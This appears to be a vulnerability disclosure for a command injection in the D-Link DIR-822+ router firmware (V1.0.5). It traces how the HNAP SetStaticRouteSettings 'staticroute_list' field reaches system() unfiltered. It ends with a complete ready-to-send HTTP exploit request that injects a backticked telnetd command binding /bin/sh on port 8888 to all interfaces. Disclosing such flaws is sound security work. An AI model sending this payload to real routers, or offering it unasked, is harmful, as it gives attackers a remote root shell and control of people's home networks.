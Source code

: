 ## DIR-822+ Command Injection

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-822%2B

### Affected version

D-Link DIR-822+ V1.0.5 was found to contain a command injection in `SetStaticRouteSettings` function of `prog.cgi`, which allows remote attackers to execute arbitrary commands via shell

![image-20240421163220274](./img/4.png)

### Vulnerability details

Vulnerability occurs in `/HNAP1/SetStaticRouteSettings`. Attackers can control `v17` by setting the `staticroute_list`.

![image-20240421163827190](./img/1.png)

Split this part of data with comma and pass the value to `v10-v13`, which represents the `network address`, `network mask`, `gateway` and `interface`.

![image-20240421163827190](./img/2.png)

Then pass `v10-13` in the` sub_437028` function.

![image-20240421163827190](./img/5.png)

This part of data was directly passed in system without any filtering

![image-20240421163827190](./img/6.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `staticroute_list`. 

### EXP

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 50
Accept: application/json
HNAP_AUTH: 5E736BA3725CFF7870DC7A1B6B9512E6 1703160655517
SOAPACTION: "http://purenetworks.com/HNAP1/SetStaticRouteSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=akiKeInk; PrivateKey=880D5E30644E82353544D9496CA35B50; timeout=51
Connection: close

{"SetStaticRouteSettings":{"staticroute_list":"`telnetd -l /bin/sh -p 8888 -b 0.0.0.0`,255.255.255.255,192.168.0.1,wan"}}
```

![image-20240421163827190](./img/3.png)
